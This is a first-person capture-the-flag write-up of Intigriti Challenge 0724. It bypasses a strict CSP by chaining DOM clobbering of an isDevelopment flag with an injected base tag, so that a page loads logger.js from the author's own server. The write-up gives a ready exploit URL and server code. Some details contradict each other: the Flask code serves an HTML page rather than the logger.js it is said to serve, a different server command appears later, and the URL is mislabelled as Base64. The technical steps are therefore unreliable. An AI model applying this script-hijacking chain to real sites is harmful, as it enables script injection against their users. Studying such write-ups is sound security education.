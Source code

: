 # Intigriti Challenge 0724 - Complete Write-up & Exploit

## Overview

This write-up explains how I solved the Intigriti Challenge 0724, a web security CTF involving bypassing a strict Content Security Policy (CSP) and exploiting DOM behavior to execute JavaScript in the victim’s browser.

The main goal was to bypass CSP restrictions, hijack a dynamically loaded script (`logger.js`), and run `alert(document.domain)` without any user interaction.

---

## Step-by-Step Exploit Breakdown

### 1. Understanding the Challenge

- The vulnerable web page sanitizes user input (`memo` parameter).
- If sanitization fails (due to malformed input), it loads a `logger.js` script dynamically.
- The page only enables “development mode” (`isDevelopment` flag) when running on `localhost`.
- CSP uses `'strict-dynamic'` with script hashes, restricting which scripts can run.

---

### 2. Bypassing `isDevelopment` with DOM Clobbering

Normally, the `isDevelopment` variable is `true` only on localhost, blocking our exploit on the challenge server.

I injected:

```html
<form id="isDevelopment">
```
This creates a global DOM element with the ID isDevelopment that overwrites the JavaScript variable of the same name with a truthy object, tricking the site into enabling dev mode regardless of origin.
### 3. Hijacking Script Loading with the <base> Tag
The site dynamically loads ./logger.js relative to the page.
I injected:
```html
<base href="http://127.0.0.1:8000/">
```
This tag changes the base URL for relative paths, making the browser load logger.js from my own server instead of the challenge’s domain.
### 4. Crafting Malformed Input to Trigger Sanitizer Error
By combining the two injections:
```html
<base href="http://127.0.0.1:8000/"><form id="isDevelopment">
```
the input breaks the sanitizer, causing it to throw an error and load logger.js dynamically.
### 5. Hosting Malicious logger.js on a Local Flask Server
To serve the malicious script, I wrote this Python Flask server:
```python
from flask import Flask, render_template_string

app = Flask(__name__)

@app.route('/')
def home():
    return render_template_string('''
    <!DOCTYPE html>
    <html>
    <head>
        <title>Document Domain Alert</title>
    </head>
    <body>
        <h1>Welcome to Flask</h1>
        <script>
            alert(document.domain);
        </script>
    </body>
    </html>
    ''')

if __name__ == '__main__':
    app.run(host="0.0.0.0", port=8000,debug=True)

```
- This serves a JavaScript file at http://127.0.0.1:8000/logger.js.
- The file contains alert(document.domain); which will pop up the domain of the vulnerable page.
### 6. Running the Local Server
To start the server via:
```pyhton
python3 -m http.server 8000
```
### 7. Full Exploit URL Base 64 encode.
```url
https://challenge-0724.intigriti.io/challenge/index.html?memo=%3Cbase%20href%3D%22http%3A%2F%2F127.0.0.1%3A8000%2F%22%3E%3Cform%20id%3D%22isDevelopment%22%3E

```
When visiting this URL:
- The sanitizer throws an error on the malformed input.
- Dev mode is enabled by the DOM clobbering.
- The page dynamically loads logger.js from my Flask server.
- The browser executes alert(document.domain); under the challenge domain context.

### 8. Result
An alert box pops up showing:
```go
challenge-0724.intigriti.io
```
I have Provided the screenshot.
This confirms the CSP bypass and successful remote script execution.

---

##  Personal Reflection

When I first saw this challenge, I felt overwhelmed. I had never dealt with advanced CSP, DOM clobbering, or dynamic script injection before. It all seemed complicated and out of reach.

But instead of giving up, I started breaking down each part — inch by inch. I studied how the base tag works, what CSP `'strict-dynamic'` really means, and how browsers treat malformed HTML. I spent hours experimenting, failing, tweaking, and finally — it clicked.

And when I saw that **`alert(document.domain)`** pop up...  
I froze.  
Then I smiled.  

> I didn’t just solve a CTF — I understood the web a little deeper.  
> I didn’t just hack a page — I hacked my own limitations.

This was my **first CTF** — and now, I’m not afraid of the next one. In fact, I can’t wait.

---

##  Final Words

> “You don't grow when things are easy. You grow when you face challenges that feel impossible — and solve them anyway.”  
> — Mohamed Sadik


### Lessons Learned
- DOM Clobbering: Overriding JavaScript variables with DOM elements.

- Base Tag Injection: Changing base URL to hijack relative resource loading.

- CSP Bypass: Leveraging 'strict-dynamic' to allow trusted dynamic scripts.

- Sanitizer Abuse: Causing errors to trigger fallback script loading.

- Hosting Malicious JS: Serving payloads to hijacked script URLs.

### Disclaimer
This write-up is for educational purposes and authorized (By Intigriti Challenge 0724) challenges only. Do not attempt unauthorized attacks.
### Contact
Feel free to reach out for questions or collaboration.
- Mail: mwmsadik@gmail.com
- Mohamed Sadik
- **Don't just code it. Understand it. Break it. Rebuild it better.**
